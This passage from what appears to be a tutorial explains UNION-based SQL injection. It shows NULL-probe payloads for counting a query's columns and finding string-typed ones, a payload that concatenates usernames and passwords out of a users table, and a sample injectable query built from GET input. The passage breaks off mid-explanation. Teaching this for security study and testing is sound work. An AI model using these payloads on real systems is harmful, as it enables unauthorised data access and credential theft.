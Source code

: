 Use [Null keyword method](#bypass-limit-1:-the-the-datatype) to find your desired datatype.

Let's say you want to find the string column of the original query.

You can do 

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'-- 
```

Any query that does not generate error indicates that the column is a string.

#### Combine multiple value into single column

Let's say there is only one column which is char type, and what you need is char type.

What you cna do is to concatenate string.

You can do this by using `||` or `+`, depends on the sql engine.

For example,

```
 ' UNION SELECT username || '~' || password FROM users-- 
```

### Bypass limit 2: the column numbers

We need a way to check the number of the columns in original query.

There are two common ways to do that:

#### Use NULL keyword

Since `NULL` is [compatible with any datatype](#bypass-limit-1:-the-the-datatype), we can increase the number of `NULL`s each turn and see if the query is valid.

Let's say the original query is:
```sql
SELECT name, price FROM products WHERE category = '$_GET['user_select']'
```

The attack payload looks like this:

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

If line 1 and line 3 crash the page but line 2 doesn't, then the number of columns in the original query is 2.
This is because

```sql
SELECT name, price FROM products WHERE category = '' UNION SELECT NULL,NULL--'
```
